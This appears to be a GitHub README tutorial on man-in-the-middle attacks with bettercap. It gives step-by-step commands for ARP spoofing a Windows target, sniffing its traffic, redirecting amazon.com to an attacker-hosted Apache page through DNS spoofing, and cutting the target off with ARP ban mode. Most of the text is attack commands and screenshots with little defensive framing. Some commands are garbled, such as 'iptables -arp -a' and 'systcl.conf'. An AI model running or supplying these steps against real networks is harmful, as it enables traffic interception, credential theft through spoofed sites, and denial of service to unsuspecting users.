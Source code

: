 # Dns-Spoofing-with-bettercap
DNS Spoofing: How to Perform the Attack
To execute DNS spoofing, we will require a Kali Linux machine and a target machine running Windows 7, XP, or 10. Now, let's proceed!
![Anwer Lahami](https://www.imperva.com/learn/wp-content/uploads/sites/13/2019/01/DNS-spoofing.jpg)
### installing bettercap :
Bettercap is written in Go and provides a variety of features for interacting with networks, capturing and analyzing data, and performing various security-related tasks.
```
sudo apt-get update
sudo apt install bettercap
```
### lunching Bettercap: 
we can now lunch it using :
```
sudo bettercap
```
![image](https://github.com/anouerr357/Dns-Spoofing-with-bettercap/assets/124587170/0292bf7c-1b96-424b-924b-2b639f8372fa)

then type ```help``` 

![image](https://github.com/anouerr357/Dns-Spoofing-with-bettercap/assets/124587170/b3e30087-72bd-49d1-abf0-317f2ed9c7cb)

we can see net.probe && net.recon are not running , net.probe : this module will send different types of probe packets to each IP in the current subnet in order for the net.recon module to detect them.
to activate it: 

```
net.probe on
```

![image](https://github.com/anouerr357/Dns-Spoofing-with-bettercap/assets/124587170/8ac8972c-03df-48b6-89af-ec0818e467c6)

![image](https://github.com/anouerr357/Dns-Spoofing-with-bettercap/assets/124587170/3ca31fca-9f19-458a-829f-c5639502fa6e)

### ARP spoof attack:
first let's check the table arp in our target machine

![image](https://github.com/anouerr357/Dns-Spoofing-with-bettercap/assets/124587170/ac5bf67a-c2c7-42e7-beea-528b65fbcf71)

we can see the adrees of the router and our Kali machine
then let's from our machine check the module ARP.spoof using:
```
help arp.spoof
```

![image](https://github.com/anouerr357/Dns-Spoofing-with-bettercap/assets/124587170/a34af5aa-93aa-4c3c-96b5-05d5d54b8049)

#### setting the environnement for the attack
Let's execute the following command:
```set arp.spoof.fullduplex true``` 
this means that we will target both the router and the target machine (in our case windowsXP) 
!!! if the router has ARP spoofing protections in place this will make the attack fail (default=false)
```
set arp.spoof.target @ip Target machine
```
NOTE: we can replace @ip target machine with a range of address seperated by a commas or a subnet
to sniff the traffic and redirect to our machine 
```
set net.sniff.local true
```
we can type 
```
help net.sniff to see more infomation
```
![image](https://github.com/anouerr357/Dns-Spoofing-with-bette
rcap/assets/124587170/161885a6-e95c-46d8-a072-01eaa1ae5b01)
#### executing the attack
```
arp.spoof on
net.sniff on
```
WARNING: in some case will see this type of message 

![image](https://github.com/anouerr357/Dns-Spoofing-with-bettercap/assets/124587170/6e48d7c7-ac49-43c0-9ab6-225d3b00b3c6)

#### solving the issue :
!! first insure that your apache2 serveur is stopped
else:
we need to redirect the packet in and out of our machine so we need to set the machine to forward the packets:
```
iptables -arp -a FORWARD -i (your interface in my case 'eth0') -j ACCEPT
iptables -arp -a FORWARD -o (your interface in my case 'eth0') -j ACCEPT
nano /etc/systcl.conf
```
![image](https://github.com/anouerr357/Dns-Spoofing-with-bettercap/assets/124587170/2dabac88-e54a-482b-9375-f0484e4910c4)

now we can see the raffic of the target machine and let's check it's arp table:

![image](https://github.com/anouerr357/Dns-Spoofing-with-bettercap/assets/124587170/89a095a5-e9ce-4d49-88ee-ef6da9712d43)

We can even visualize and see the data sended it in the http mode 

![image](https://github.com/anouerr357/Dns-Spoofing-with-bettercap/assets/124587170/a078902b-1da0-4b66-afef-421797d2e6d9)

this attack is not available now since many website disable their http version 
###DNS spoofing
Now we are going to spoof a DNS
let's see the module in bettercap using:

```
hepl dns.spoof
```

![image](https://github.com/anouerr357/Dns-Spoofing-with-bettercap/assets/124587170/536274db-d932-4aaa-ad6f-40b8b0e6ec8e)

what we want to do here is to take a domain and spoof it back to my IP address
first let's start our apache2 server:
```
sudo service apache2 start
```
if we type 127.0.0.1 in ou kali machine we can see the index  page :
! if your asking how change the index.html file just do the following commands:
```
cd /var/www/html
sudo nano index.html
```
![image](https://github.com/anouerr357/Dns-Spoofing-with-bettercap/assets/124587170/ccd2cfe9-60a1-4220-9439-9c57a36f38c9)

then let's go to our terminal:
```
set dns.spoof.domains amazon.com
set dns.spoof.address @ip_kali
dns.spoof on 
```
![image](https://github.com/anouerr357/Dns-Spoofing-with-bettercap/assets/124587170/dd901841-ef02-4349-a973-f4af9b8bab81)

now let's go to the target and type: amazon.com

![image](https://github.com/anouerr357/Dns-Spoofing-with-bettercap/assets/124587170/71ac0d35-818a-42b7-a0be-fad53a6163b2)

### DOS using ARP 
```
arp.ban on
```
![image](https://github.com/anouerr357/Dns-Spoofing-with-bettercap/assets/124587170/3c3d4c50-d1a2-45c6-a6d0-16732bb48028)

Start ARP spoofer in ban mode, meaning the target(s) connectivity will not work.

for additionnal informations:
https://www.bettercap.org/modules


